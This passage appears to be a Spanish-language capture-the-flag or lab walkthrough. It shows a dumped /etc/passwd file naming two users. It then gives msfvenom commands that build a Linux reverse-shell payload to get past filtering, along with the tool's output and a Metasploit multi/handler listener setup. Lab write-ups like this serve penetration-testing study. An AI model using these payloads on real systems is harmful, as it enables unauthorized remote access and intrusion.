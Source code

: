 ```
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
nitish:x:1000:1000:nitish,,,:/home/nitish:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
ugtan:x:1001:1001:umang taneja,,,:/home/ugtan:/bin/bash
ftp:x:111:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
postfix:x:112:117::/var/spool/postfix:/usr/sbin/nologin
```

Por lo que vemos hay 2 usuarios llamados `nitish` y `ugtan`...

Lo que haremos sera un `payload` para poder hacernos una shell mediante `metasploit` ya que esta sanitizadas las `Reverse Shell's`...

```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o payload.elf
```

Info:

```
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: payload.elf
```

Preparamos el `metasploit`...

```shell
msfconsole -q
```

```shell
#Utilizar el siguiente exploit
use multi/handler

#Configurar payload anterior
set payload linux/x86/shell_reverse_tcp

#Configuracion
show options

set LHOST <IP>

set LPORT <PORT>

#Iniciar para estar a la escucha
run
```
